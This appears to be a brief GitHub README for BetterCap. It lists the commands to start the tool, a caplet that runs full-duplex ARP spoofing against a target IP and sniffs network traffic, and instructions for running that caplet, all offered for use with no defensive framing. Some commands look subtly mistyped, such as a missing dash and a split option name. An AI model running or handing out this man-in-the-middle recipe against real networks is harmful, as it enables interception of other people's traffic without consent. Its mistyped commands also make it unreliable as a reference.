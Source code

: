 # BetterCap

![bettercap](https://raw.githubusercontent.com/bettercap/media/master/logo.png)


## To start with the program

bettercap iface **name_of_interface**


## spoof.cap

net.probe on
</br>set arp.spoof.full duplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## bettercap caplet

Copy the commands from **spoof.cap**, then edit it with the **target_IP** and save it in some directory. Now, move to the particular directory and run the command below:
</br>bettercap -iface **name_of_interface** -caplet spoof.cap
